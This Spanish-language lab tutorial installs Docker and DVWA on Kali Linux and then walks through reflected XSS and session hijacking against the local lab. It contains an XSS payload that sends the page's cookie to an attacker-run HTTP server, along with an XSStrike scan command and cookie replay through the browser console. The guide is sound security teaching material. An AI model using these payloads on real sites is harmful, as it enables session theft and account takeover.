 ![M1](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%201%402Menbrete1.png)

# **Explotación de XSS y Seguridad en la Gestión de Sesiones con DVWA en Kali Linux**

En esta práctica, instalaremos **Docker en Kali Linux** y configuraremos **Damn Vulnerable Web Application (DVWA)**, una aplicación web diseñada para probar vulnerabilidades de seguridad. Luego, realizaremos pruebas de **Cross-Site Scripting (XSS) y gestión de sesiones** utilizando herramientas de Kali Linux.

------

## **1. Instalación de Docker en Kali Linux**

Docker permite ejecutar contenedores con entornos preconfigurados, lo que facilita el despliegue de aplicaciones vulnerables para pruebas de seguridad.

### **📌 Paso 1: Actualizar el sistema**

Antes de instalar Docker, asegurémonos de que el sistema está actualizado.

```bash
sudo apt update && sudo apt upgrade -y
```

### **📌 Paso 2: Instalar dependencias necesarias**

```bash
sudo apt install apt-transport-https ca-certificates curl software-properties-common -y
```

### **📌 Paso 3: Agregar el repositorio oficial de Docker**

```bash
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo tee /usr/share/keyrings/docker-archive-keyring.gpg >/dev/null
echo "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/debian $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
```

### **📌 Paso 4: Instalar Docker**

```bash
sudo apt update
sudo apt install docker-ce docker-ce-cli containerd.io -y
```

### **📌 Paso 5: Verificar la instalación**

```bash
docker --version
```

Debería mostrar una salida similar a:

```bash
Docker version 24.0.5, build 123456
```

### **📌 Paso 6: Habilitar y verificar el servicio**

```bash
sudo systemctl start docker
sudo systemctl enable docker
sudo systemctl status docker
```

Si ves una salida como **"active (running)"**, Docker está instalado y funcionando.

------

## **2. Instalación de DVWA con Docker**

Ahora que Docker está listo, desplegaremos **Damn Vulnerable Web Application (DVWA)**, una aplicación con múltiples vulnerabilidades intencionales.

### **📌 Paso 1: Descargar la imagen de DVWA**

```bash
docker pull vulnerables/web-dvwa
```

Esto descargará la imagen oficial de DVWA.

### **📌 Paso 2: Ejecutar el contenedor**

```bash
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

Este comando ejecutará DVWA en el puerto `80` de Kali Linux.

### **📌 Paso 3: Acceder a DVWA en el navegador**

Abre tu navegador y visita:

```bash
http://localhost
```

Debería aparecer la interfaz de login de DVWA.

### **📌 Paso 4: Iniciar sesión en DVWA**

- Usuario: `admin`
- Contraseña: `password`
- En la configuración de DVWA, establece el **Security Level** en **Low**.

------

## **3. Práctica: Explotación de XSS con DVWA y Kali Linux**

### **📌 Escenario**

El atacante intenta explotar una vulnerabilidad **Cross-Site Scripting (XSS)** en la sección de comentarios de DVWA.

### **📌 Paso 1: Identificación de la vulnerabilidad**

1. Navega a `http://localhost/vulnerabilities/xss_r/`

2. Ingresa el siguiente payload en el cuadro de comentarios:

   ```html
   <script>alert('XSS encontrado');</script>
   ```

3. Si el mensaje aparece en pantalla, la aplicación es vulnerable a **XSS reflejado**.

### **📌 Paso 2: Ataque con robo de cookies**

1. En una terminal, inicia un servidor HTTP para recibir la cookie de la víctima:

   ```bash
   python3 -m http.server 8080
   ```

2. En el cuadro de comentarios de DVWA, ingresa el siguiente código malicioso:

   ```html
   <script>document.location='http://localhost:8080/?cookie='+document.cookie;</script>
   ```

3. Cuando otro usuario visite la página, su cookie será enviada al atacante.

### **📌 Paso 3: Uso de XSStrike para automatizar el ataque**

**XSStrike** es una herramienta avanzada en Kali Linux para identificar y explotar XSS.

```bash
xsstrike -u "http://localhost/vulnerabilities/xss_r/?name="
```

Esto analizará la aplicación en busca de vulnerabilidades XSS más avanzadas.

------

## **4. Práctica: Seguridad en la Gestión de Sesiones**

Las sesiones mal gestionadas pueden permitir a un atacante **secuestrar cuentas**.

### **📌 Paso 1: Intercepción de cookies con Burp Suite**

1. Abrir Burp Suite

    en Kali Linux:

   ```bash
   burpsuite &
   ```

2. Activar el **proxy** y configurar el navegador para usarlo.

3. Iniciar sesión en DVWA y capturar la cookie de sesión en Burp Suite.

### **📌 Paso 2: Reutilización de sesión**

1. Copiar la cookie interceptada en Burp Suite.

2. Abrir un navegador en modo incógnito.

3. En la consola del navegador, ejecutar:

   ```js
   document.cookie = "PHPSESSID=VALOR_OBTENIDO; security=low";
   ```

4. Refrescar la página. Si la sesión se mantiene, la aplicación **es vulnerable** a secuestro de sesiones.



![M2](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%203%402Menbrete2.png)